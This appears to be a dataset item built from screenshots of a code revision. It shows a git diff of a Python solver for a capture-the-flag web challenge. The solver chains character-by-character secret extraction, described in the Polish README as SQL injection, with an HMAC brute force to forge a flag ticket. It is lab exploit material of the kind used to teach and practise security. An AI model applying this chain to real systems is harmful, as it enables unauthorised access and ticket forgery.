

Task #1: flag `++`

Changed region(s): [[0.4375, 0.12, 0.9375, 0.9], [0.0, 0.24, 0.2188, 0.3]]

diff --git a/01_web/task_01.py b/01_web/task_01.py
@@ -1,6 +1,7 @@
 import hashlib
 import hmac
 import io
+import itertools
 import qrcode
 import random
 import re
@@ -16,11 +17,15 @@ TICKET_PATH = 'free_ticket.png'
 LOGIN_URL = 'https://easy.web.uw2017.p4.team/login'
 REGISTER_URL = 'https://easy.web.uw2017.p4.team/register'
 VALIDATE_URL = 'https://easy.web.uw2017.p4.team/validate'
+FREE_TICKET_URL = 'https://easy.web.uw2017.p4.team/free_ticket'
 
 QUERY_OK = 'i znajduje się w naszej bazie danych'
 QUERY_WRONG = 'i nie znajduje się w naszej bazie danych'
 TICKET_OK = 'Twój bilet jest poprawny'
 TICKET_WRONG = 'Twój bilet ma niepoprawny typ'
+
+TICKET_FLAG = 'flaga'
+TICKET_FREE = 'wejsciowka_do_metra'
 
 
 def create_code(content):
@@ -62,6 +67,7 @@ class EasyWeb():
     sess = None
     reg = re.compile("<div class=\"alert alert-info\">([\w\W]*?)</div>")
     uname_hash = None
+    free_ticket = None
 
     def register(self, username, password):
         user_data = {
@@ -71,7 +77,29 @@ class EasyWeb():
         }
 
         self.sess = requests.session()
-        response = self.sess.post(REGISTER_URL, data=user_data)
+
+        self.sess.post(REGISTER_URL, data=user_data)
+
+
+    def save_free_ticket(self):
+        with open(TICKET_PATH, 'wb') as f:
+            r = self.sess.get(FREE_TICKET_URL)
+            r.raw.decode_content = True
+            f.write(r.content)
+
+
+    def decode_free_ticket(self):
+        with open(TICKET_PATH, 'rb') as ticket:
+            files = {
+                'file': ('ticket.png', ticket)
+            }
+            data = {
+                'outputformat': 'json'
+            }
+
+            response = self.sess.post("http://api.qrserver.com/v1/read-qr-code/", files=files, data=data)
+
+            self.free_ticket = response.json()[0]['symbol'][0]['data']
 
 
     def login(self, username, password):
@@ -81,7 +109,7 @@ class EasyWeb():
         }
 
         self.uname_hash = hashlib.sha256(username.encode('utf-8')).hexdigest()
-        response = self.sess.post(LOGIN_URL, data=login_data)
+        self.sess.post(LOGIN_URL, data=login_data)
 
 
     def check_ticket(self, content, print_info=False):
@@ -90,10 +118,7 @@ class EasyWeb():
             'ticket': ('ticket.png', ticket)
         }
 
-        response = self.sess.post(
-            VALIDATE_URL,
-            files=files,
-        )
+        response = self.sess.post(VALIDATE_URL, files=files)
 
         if print_info:
             print(content)
@@ -129,9 +154,9 @@ class EasyWeb():
         return ALPHABET[i]
 
 
-    def find_user_secret(self):
+    def find_partial_user_secret(self, n=32):
         user_secret = ''
-        for i in range(1, 33):
+        for i in range(1, n+1):
             c = self.find_nth_char(i)
             user_secret += c
             print(user_secret)
@@ -139,7 +164,17 @@ class EasyWeb():
         return user_secret
 
 
-if __name__ == '__main__':
+    def find_user_secret(self, partial_secret, n):
+        ALPHABET = '0123456789abcdef'
+
+        for ending in itertools.product(ALPHABET, repeat=n):
+            candidate = partial_secret + ''.join(ending)
+            t = hmac_ticket(candidate, TICKET_FREE)
+            if t == self.free_ticket:
+                return candidate
+
+
+def solve():
     ew = EasyWeb()
     username = get_random_string(10)
     password = get_random_string(10)
@@ -148,9 +183,18 @@ if __name__ == '__main__':
 
     ew.register(username, password)
     ew.login(username, password)
+    ew.save_free_ticket()
+    ew.decode_free_ticket()
 
-    user_secret = ew.find_user_secret()
+    print(ew.free_ticket)
 
-    t = hmac_ticket(user_secret, 'flaga')
+    partial_user_secret = ew.find_partial_user_secret(27)
 
+    user_secret = ew.find_user_secret(partial_user_secret, 5)
+
+    t = hmac_ticket(user_secret, TICKET_FLAG)
     ew.check_ticket(t, print_info=True)
+
+
+if __name__ == '__main__':
+    solve()

diff --git a/01_web/README.md b/01_web/README.md
@@ -1,22 +1,4 @@
-```
-tomek
-kolejarz
-```
+# Zadanie 1 - web easy
 
-```
-husarz
-husaria
-```
-
-QR code
-```
[2 lines of base64/hex data omitted]
-```
-
-Image
-offset: 360, 60
-code size: 380, 380
-
-350 x 50
-400 x 400
+Rozwiązanie zadania polega na zrobieniu ataku SQL Injection w formularzu
+sprawdzającym poprawność biletu
